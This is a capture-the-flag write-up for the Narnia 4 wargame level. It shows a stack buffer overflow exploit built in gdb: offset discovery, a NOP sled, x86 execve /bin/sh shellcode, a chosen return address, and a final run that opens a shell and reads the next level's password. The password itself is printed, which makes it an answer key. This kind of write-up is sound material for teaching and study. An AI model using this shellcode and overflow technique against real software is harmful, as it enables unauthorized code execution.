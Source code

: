 # Writeup for Narnia 4
So we analyze the C code and we see this

```text
    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

```
All this is doing is setting each individual char in the ith environ string to /0 and environ is an array of string literals. 
Okie, let's see something else

We find the offset is 264 and we are able to get buffer overflow

## Proof of Concept
```text
┌──(hanoz㉿kali)-[~/Desktop/htb/challenges/narnia]
└─$ python -c 'print "A"*264 + "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Cool, gg now we just need to figure out where to direct stuff. to get shell. 

Let's just find shellcode in the stack? I don't see how we can write into the env variable so 

## Completed Exploit

Let's make the NOP sled and then the shellcode
```text
python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "\xd8\xd7\xff\xff"' 
```

Let's also get the value of the address where we can hit the NOP sled.
To do this, we set a breakpoint before strcpy and then execute the buffer overflow payload. Now we just search everything below EBP and we will eventually get the buffer.
```text
(gdb)  r `python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "BBBB"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 `python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "BBBB"'`

Breakpoint 1, 0x08048524 in main ()
(gdb) x/200xw $ebp
0xffffd5b8:     0x80cd0bb0      0x42424242      0x00000000      0xffffd654
0xffffd5c8:     0xffffd660      0x00000000      0x00000000      0x00000000
0xffffd5d8:     0xf7fc5000      0xf7ffdc0c      0xf7ffd000      0x00000000
0xffffd5e8:     0x00000002      0xf7fc5000      0x00000000      0x4e5b4439
0xffffd5f8:     0x74b44829      0x00000000      0x00000000      0x00000000
0xffffd608:     0x00000002      0x080483b0      0x00000000      0xf7fee710
0xffffd618:     0xf7e2a199      0xf7ffd000      0x00000002      0x080483b0
0xffffd628:     0x00000000      0x080483d1      0x080484ab      0x00000002
0xffffd638:     0xffffd654      0x08048530      0x08048590      0xf7fe9070
0xffffd648:     0xffffd64c      0xf7ffd920      0x00000002      0xffffd780
0xffffd658:     0xffffd790      0x00000000      0xffffd89d      0xffffd8b0
0xffffd668:     0xffffde6c      0xffffdea1      0xffffdeb0      0xffffdec1
0xffffd678:     0xffffded6      0xffffdee3      0xffffdeef      0xffffdef8
0xffffd688:     0xffffdf0b      0xffffdf2d      0xffffdf40      0xffffdf4c
0xffffd698:     0xffffdf63      0xffffdf73      0xffffdf87      0xffffdf92
0xffffd6a8:     0xffffdf9a      0xffffdfaa      0x00000000      0x00000020
0xffffd6b8:     0xf7fd7c90      0x00000021      0xf7fd7000      0x00000010
0xffffd6c8:     0x178bfbff      0x00000006      0x00001000      0x00000011
0xffffd6d8:     0x00000064      0x00000003      0x08048034      0x00000004
0xffffd6e8:     0x00000020      0x00000005      0x00000008      0x00000007
0xffffd6f8:     0xf7fd9000      0x00000008      0x00000000      0x00000009
0xffffd708:     0x080483b0      0x0000000b      0x000036b4      0x0000000c
0xffffd718:     0x000036b4      0x0000000d      0x000036b4      0x0000000e
0xffffd728:     0x000036b4      0x00000017      0x00000001      0x00000019
0xffffd738:     0xffffd76b      0x0000001a      0x00000000      0x0000001f
0xffffd748:     0xffffdfe8      0x0000000f      0xffffd77b      0x00000000
0xffffd758:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd768:     0x1d000000      0x629fdfbc      0x73e358f8      0x72dddffd
0xffffd778:     0x692dc22a      0x00363836      0x72616e2f      0x2f61696e
0xffffd788:     0x6e72616e      0x00346169      0x90909090      0x90909090
0xffffd798:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd7a8:     0x90909090      0x90909090      0x90909090      0x90909090
```

Here we have it, I have a random address in the sled 0xffffd7d8.

GG, now we send the payload and we have shell. 

```text
narnia4@narnia:/narnia$ ./narnia4 `python -c 'print "\x90"*240 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"  + "\xd8\xd7\xff\xff"'`
$ cat /etc/narnia_pass/narnia5
faimahchiy
```

The password to the next level is 
```
faimahchiy
```